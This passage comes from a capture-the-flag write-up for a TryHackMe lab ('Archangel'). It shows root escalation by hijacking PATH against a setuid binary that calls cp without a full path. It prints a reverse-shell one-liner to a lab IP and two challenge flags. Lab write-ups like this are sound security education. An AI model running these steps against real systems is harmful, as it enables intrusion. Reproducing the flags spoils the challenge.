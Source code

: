 We find a second user flag in `/home/archangel/secret/user2.txt` 

```
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
```

We see a `setuid ` executable `/home/archangel/secret/backup`

```
backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9093af828f30f957efce9020adc16dc214371d45, for GNU/Linux 3.2.0, not stripped
```

Maybe we can use the ld_library injection trick

Running `strings ./backup` we find the command executed as root via the `system` GLIBC fuction

```bash
cp /home/user/archangel/myfiles/* /opt/backupfiles
```

So actually, it's easier than the LD_PRELOAD, we can abuse the `*` 

Hmmmmm, well, the path is wrong.. it refer to `/home/USER/archangel` not `/home/archangel` 
I kinda thought that there was an error in the binary, but it was actually just a rabbit hole..

I looked up a write up and it was pretty obvious. The command executed is `cp`, without full path.
We can highjack `cp` and get root.
To do so we just 

```bash
>> export PATH=/home/archangel/bin:$PATH
```

And then we create an executable script `/home/archangel/bin/cp` :

```bash
#!/bin/bash
id
echo Pwn
```

When running `~/secret/backup` we get 

```
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
```

So this is runned as root. Let's get another revshell goin

```
bash -i >& /dev/tcp/10.6.32.20/6666 0>&1
```

And we got root !

The flag in `/root/root.txt` :

```
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}
```



## End